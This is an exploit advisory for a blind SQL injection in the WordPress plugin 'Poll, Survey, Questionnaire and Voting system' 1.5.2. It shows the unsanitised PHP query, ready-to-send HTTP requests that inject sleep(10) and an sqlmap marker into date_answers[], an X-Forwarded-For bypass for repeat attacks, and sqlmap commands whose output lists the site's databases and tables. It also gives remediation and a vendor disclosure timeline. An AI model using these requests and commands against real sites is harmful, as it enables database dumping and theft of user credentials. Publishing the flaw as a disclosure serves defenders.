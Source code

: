     # Exploit Title: WordPress Plugin Poll, Survey, Questionnaire and Voting system 1.5.2 - 'date_answers' Blind SQL Injection
    # Date: 09/06/2021
    # Exploit Author: inspired - Toby Jackson
    # Blog Post: https://in-spired.xyz/wpdevart-polls-blind-sql-injection/
    # Vendor Homepage: https://wpdevart.com/wordpress-polls-plugin
    # Software Link: https://en-gb.wordpress.org/plugins/polls-widget/
    # Version: Tested on version 1.5.0 and 1.5.2 (Older versions may be affected)
    # Tested on: WordPress


    ## I. Vulnerability

    Blind SQL Injection

    ## II. Product Overview

    The software allows users to quickly generate polls and voting system and displays the results in real time.

    ## III. Exploit

    A vulnerability has been discovered in the wpdevart wordpress plugin "Poll, Survey, Questionnaire and Voting system" version 1.5.0 and 1.5.2. It is possible to perform a blind SQL injection on the date_answers[] parameter when casting a vote. This can be used to dump the back end database. Version 1.5.2 requires the changing of headers using an appropriate method for spoofing an IP address, such as X-Forwarded-For.

    ## IV. Vulnerable Code

    The vulnerable code resides in the front_end.php page within the save_poll_in_databese() function. It takes the $question_id and $current_user_ip before storing the vote in a variable called $new_voted_array, as seen below, from the date_answers post parameter.


    $new_voted_array=$_POST['date_answers'];

    The array is then looped through and the $new_answer variable is used as part of the where query without being sanitized.

    if($new_voted_array)
        foreach($new_voted_array as $new_answer)    {
            $wpdb->query('UPDATE '.$wpdb->prefix.'polls SET vote = vote+1 WHERE `question_id` = '.$question_id.' AND `answer_name` = '.$new_answer.'');



    The above code is fixed in version 1.5.1, but there remains a vulnerability in 1.5.1 and 1.5.2. When a user is voting for the first time, the vote is cast in a different statement that also does not get sanitized. Coupled with the fact the application uses user-controlled headers to determine whether a user has voted already, an attacker can just edit their origin IP with an X-Forwarded-For header to vote multiple times but also invoke the SQL Injection still.

    if ($new_voted_array)
        foreach ($new_voted_array as $answer) {
            $wpdb->query('UPDATE ' . $wpdb->prefix . 'polls SET vote = vote+1 WHERE `question_id` = ' . $question_id . ' AND `answer_name` = ' . $answer . '');
        }


    ## IV. Proof of Concept

    A typical vote, intercepted with burp, will look like the request below. Editing this to contain a sleep will cause the server to sleep for X period.

    ------
    POST /blog/wp-admin/admin-ajax.php?action=pollinsertvalues HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 67
    Origin: http://localhost
    DNT: 1
    Connection: close
    Referer: http://localhost/blog/index.php/2021/06/09/research/
    Cookie: wordpress_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3538f3f44a02304781e099f970dc762fd89e88378a46613cf636fcd28a9755d3; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3d7d7b6485e1daa04da753dcc4e85a56150091301de3668ffe108e7829134f0d; wp-settings-time-1=1623238438

    question_id=1&poll_answer_securety=5b29ac18fe&date_answers%5B0%5D=sleep(10)
    ------


    Utilizing this, the database can easily be dumped by capturing the request, with an interceptor such as burpsuite, and using sqlmap.  By placing a * at the required injection point, sqlmap will first test this location.

    ------
    POST /blog/wp-admin/admin-ajax.php?action=pollinsertvalues HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 67
    Origin: http://localhost
    DNT: 1
    Connection: close
    Referer: http://localhost/blog/index.php/2021/06/09/research/
    Cookie: wordpress_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3538f3f44a02304781e099f970dc762fd89e88378a46613cf636fcd28a9755d3; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_d23cdc2cc5dd18709e8feb86452d865b=inspired%7C1623345285%7C52E5QESQG5PIPUT2tixVHPIkdN8inwgNojy9hs0JvDS%7C3d7d7b6485e1daa04da753dcc4e85a56150091301de3668ffe108e7829134f0d; wp-settings-time-1=1623238438

    question_id=1&poll_answer_securety=5b29ac18fe&date_answers%5B0%5D=*
    ------


    Save this request to a file, request.txt, and run the tool.

    ------
    sqlmap -r request.txt --dbms=mysql --dbs --level=5 --risk=3

    [14:30:54] [INFO] testing MySQL
    [14:30:54] [INFO] confirming MySQL
    [14:30:54] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Debian
    web application technology: Apache 2.4.46
    back-end DBMS: MySQL >= 8.0.0
    [14:30:54] [INFO] fetching database names
    [14:30:54] [INFO] fetching number of databases
    [14:30:54] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
    [14:30:54] [INFO] retrieved: 2
    [14:30:54] [INFO] resumed: information_schema
    [14:30:54] [INFO] resumed: wordpress
    available databases [2]:
    [*] information_schema
    [*] wordpress
    ------

    ------
    sqlmap -r request.txt --dbms=mysql -D wordpress --tables --level=5 --risk=3

    Database: wordpress
    [19 tables]
    +-----------------------+
    | wp_commentmeta        |
    | wp_comments           |
    | wp_democracy_a        |
    | wp_democracy_log      |
    | wp_democracy_q        |
    | wp_links              |
    | wp_options            |
    | wp_polls              |
    | wp_polls_question     |
    | wp_polls_templates    |
    | wp_polls_users        |
    | wp_postmeta           |
    | wp_posts              |
    | wp_term_relationships |
    | wp_term_taxonomy      |
    | wp_termmeta           |
    | wp_terms              |
    | wp_usermeta           |
    | wp_users              |
    +-----------------------+
    ------


    https://www.youtube.com/watch?v=Fj1zeXNxDYQ

    In versions 1.5.1 and 1.5.2, this vulnerability only occurs on the first vote a user casts. Adding a random X-Forwarded-For header to the requests will allow for the attack to be repeated as described above.

    This has been demonstrated in the following PoC.

    https://www.youtube.com/watch?v=P1r7gk0DSaM


    ## VI. Impact

    An attacker can dump the back-end database of the server and gain access to user credentials which could then be used to perform further malicious acts. If configured incorrectly, it can also lead to the attacker being able to obtain remote code execution on the server.


    ## VII. SYSTEMS AFFECTED

    WordPress websites running "Poll, Survey, Questionnaire and Voting system" plugin version 1.5.2 (older versions may also be affected).


    ## VIII. REMEDIATION

    The update has been fixed in version 1.5.3, so it is advised to update to this version if using the plugin.


    ## VIIII. DISCLOSURE TIMELINE
    -------------------------
    June 9, 2021 1: Vulnerability identified.
    June 9, 2021 2: Informed developer of the vulnerability.
    June 9, 2021 3: Vendor replied to discuss the vulnerability in more detail.
    June 9, 2021 4: Sent vendor proof of concept and impacted code blocks.
    June 10, 2021 1: Vendor emails to state the vulnerability has been fixed.
    June 10, 2021 2: Confirmed initial fix, vendor happy to disclose the vulnerability.
    June 10, 2021 3: Requested CVE Number.
    June 19, 2021 1: WPScan contact to discuss vulnerability.
    June 19, 2021 2: Confirmed fix is not valid when new user votes or edits headers.
    June 19, 2021 3: Contacted vendor to request further fix.
    June 22, 2021 1: Vendor confirms fix. Information made public.
